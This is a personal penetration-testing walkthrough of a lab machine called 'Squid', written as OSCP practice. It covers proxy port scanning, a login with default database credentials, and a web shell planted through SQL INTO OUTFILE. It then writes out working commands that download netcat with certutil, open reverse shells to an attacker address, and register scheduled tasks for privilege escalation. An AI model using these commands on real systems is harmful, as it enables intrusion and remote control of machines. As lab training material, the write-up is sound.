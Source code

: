 # Squid Walkthrough
Name: Squid
Date:  22/09/2022
Difficulty:  Easy
Goals:  OSCP Prep 4/5 machines a day testing (can use walkthrough)
Learnt: 
- I MUST try all of the solutions on a page before moving from a source to extention to one of the solutions on the page. nmap then spose
- Into Outfile mysql shell with php
- nt \\system is may not be full system

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. Prep the `-Pn`
![ping](Screenshots/ping.png)

One port machine, ran UDP as I normally do - was none anyway , greeted with this webpage

![](weirdness.png)
host (squid/3.1.9)
nmap says 4.14...
source code on webpage say: Generated Thu, 22 Sep 2022 10:56:47 GMT by SQUID (squid/4.14)

Askes for email web

Nuclei
```
Copyright (C) 1996-2021 The Squid Software Foundation 
```

[Hacktrick Squid Protocol Page](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid?q=3128)

![](curl-proxy.png)

It is windows machine

[4.14 exploit](https://packetstormsecurity.com/files/161563/Squid-4.14-5.0.5-Code-Execution-Double-Free.html) to consider


Used hint Foothold:
A phpMyAdmin web service can logged into with deafult credentials and "INTO OUTFILE" can be abused to gain a foothold.

proxychaining through I missed from the article; then should have masscan initially...masscan has its own tcp stack and is not compatible with proxychains
[hackwhackandsmack](https://www.hackwhackandsmack.com/?p=1021)
```bash
seq 1 10000 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n --min-rate 1 --oG proxychains_nmap --append-output localhost
```
I tuned the above down, then tried `0 65535` and nothing..

Then:
```bash
proxychains nmap -sT -oA nmap/proxychained-localhost-st --min-rate 1000 -F localhost
# None open
```

Going to return to this when I am reading and see if its a weird port. Decided I think I either am doing something really wrong proxying through or tooling. Tested nmap with walkthrough on hand. But [spose](https://github.com/aancw/spose)

```
# Nmap 7.92 scan initiated Thu Sep 22 21:59:00 2022 as: nmap -sC -sV -oN solution-testing-3306-8080 -p 3306,8080 localhost
Nmap scan report for localhost (127.0.0.1)
Host is up (0.13s latency).

PORT     STATE  SERVICE    VERSION
3306/tcp closed mysql
8080/tcp closed http-proxy

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 22 21:59:01 2022 -- 1 IP address (1 host up) scanned in 0.62 seconds
```

![](spose.png)



![](wampserver.png)

## Exploit
Root and no password...
![900](rootnopasss.png)

You can alter the SQL and serve a file.php?cmd=RCE!

## Foothold

SQL into outfile Shell
```sql
-- PHP
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
curl "http://$ip/shell.php?cmd=whoami"

curl "http://$ip/shell.php?cmd=certutil+-urlcache+-f+http://$ip/nc.exe+nc.exe"
curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+$ip+4444+-e+powershell.exe"
```

## PrivEsc

Although the walkthrough points out a different PrivEsc
![](powerup-diversion.png)

Played around and fail to make work.
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
# Catch reverse shell
# We may lack some privileges
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
# Catch another shell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
# Register SchedueledTask
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal
# Start Task
Start-ScheduledTask -TaskName "GrantAllPerms"
```

Finallly
![](finalprivesc.png)